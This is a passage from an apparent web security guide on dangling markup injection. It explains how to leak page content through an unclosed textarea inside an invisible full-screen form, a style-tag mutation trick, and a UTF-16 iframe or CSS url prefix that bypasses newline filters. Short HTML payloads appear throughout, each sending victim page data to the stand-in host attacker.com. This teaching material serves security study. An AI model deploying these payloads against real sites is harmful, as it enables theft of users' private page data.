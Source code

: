 Another idea is to use `<textarea>`, as it will only be closed by the `</textarea>` string, or at the end of the document. You can then wrap this in a form to an attacker with a large submit button that leaks the value on click:

{% code title="HTML Source" %}
```html
<form action="https://attacker.com">
<button type="submit" style="position: fixed; z-index: 999999; top: 0; left: 0;
                             width: 100vw; height: 100vh; opacity: 0"></button>
<textarea name="leak">
<p>Your email: victim@example.com</p>
```
{% endcode %}

While this too works on Firefox, Chromium has a protection against this. There needs to be a natural `</textarea>` somewhere after your injection point.

<figure><img src="../../../.gitbook/assets/image (67).png" alt="" width="563"><figcaption><p>Chromium denying an implicitly closed <code>&#x3C;textarea></code></p></figcaption></figure>

{% hint style="info" %}
**Note**: in case your HTML is _parsed and serialized_ before being shown, it is hard to dangle half-open syntax. You may be able to exploit [#mutation-xss-and-dompurify](./#mutation-xss-and-dompurify "mention") to confuse the parser and make it think your input is inside a `<style>` tag (CSS). Their text content is seen as raw and isn't altered. In the browser, however, due to some namespace confusion or other mutation it is seen as regular HTML and the tag is dangled.

```html
<style><img src='https://attacker.com?
```
{% endhint %}

### Bypass newline detection

Ideas taken from here:\
[https://nzt-48.org/slides/how-to-bypass-the-Content-Security-Policy.pdf](https://nzt-48.org/slides/how-to-bypass-the-Content-Security-Policy.pdf)

#### UTF-16 iframe/stylesheet content

One very creative idea to bypass this restriction without scripts is if `<iframe>` tags are allowed with a `src=data:`. If this is the case, you can start a document with a UTF-16 charset and start a URL from there. The content after it will still be included in the `src=`, but is decoded as UTF-16, creating random chinese characters. The URL will then contain these high unicode characters instead of newlines, so they are allowed.

We'll use a great leak method that **automatically closes itself at the end of the document**:

{% code title="Encoded prefix" %}
```html
<style>*{background-image: url(https://attacker.com?
```
{% endcode %}
